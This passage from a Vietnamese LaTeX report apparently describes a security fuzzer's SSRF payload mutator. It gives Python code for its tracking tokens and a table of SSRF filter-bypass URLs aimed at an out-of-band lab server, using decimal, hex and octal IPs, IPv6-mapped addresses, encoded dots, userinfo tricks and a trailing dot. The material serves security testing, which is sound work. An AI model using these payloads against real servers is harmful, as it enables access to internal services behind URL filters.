 \texttt{SSRFMutator} sinh payload OOB theo phương pháp round-robin qua
21 biến thể. Với mỗi lần được chọn, mutator sinh một token 8 ký tự
(chữ thường + chữ số), lưu vào dict \texttt{\_token\_map} cùng
timestamp, rồi nhúng token đó vào biến thể tiếp theo trong chu kỳ:

\begin{verbatim}
@staticmethod
def _generate_token() -> str:
    alphabet = string.ascii_lowercase + string.digits
    return "".join(random.choices(alphabet, k=8))
\end{verbatim}

Hai mươi mốt biến thể được tổ chức thành ba nhóm theo cơ chế định
tuyến tới OOB server, như liệt kê trong Bảng~\ref{tab:ssrf-variants}.
Ký hiệu \texttt{<t>} là viết tắt của token 8 ký tự.

\begin{table}[h]{Các biến thể payload của \texttt{SSRFMutator}}
\label{tab:ssrf-variants}
\centering
\small
\begin{tabular}{|c|p{8.5cm}|p{4.0cm}|}
\hline
\textbf{\#} & \textbf{Payload mẫu} & \textbf{Kỹ thuật bypass} \\
\hline
\multicolumn{3}{|l|}{\textit{Nhóm 1: IP-based — token nhúng trong URL path (biến thể 0–14)}} \\
\hline
0  & \texttt{http://<oob>/<t>}                         & Plain IP \\
1  & \texttt{http://2886795274:8000/<t>}                & Decimal IP \\
2  & \texttt{http://0xac14000a:8000/<t>}                & Hex IP \\
3  & \texttt{http://0254.024.0.012:8000/<t>}            & Octal IP \\
4  & \texttt{http://[::ffff:172.20.0.10]:8000/<t>}      & IPv6 mapped dotted \\
5  & \texttt{http://[::ffff:ac14:a]:8000/<t>}           & IPv6 mapped hex \\
6  & \texttt{http://172.20.0\%2e10:8000/<t>}            & URL-encoded dot \\
7  & \texttt{http://172.20.0\%252e10:8000/<t>}          & Double-encoded dot \\
8  & \texttt{http://x@<oob>/<t>}                        & Userinfo trick \\
9  & \texttt{http://trusted.com@<oob>/<t>}              & Reverse userinfo \\
10 & \texttt{HTTP://<oob>/<t>}                          & Mixed-case scheme \\
11 & \texttt{http://172.20.0.10.:8000/<t>}              & Trailing dot \\

\end{tabular}
\end{table}
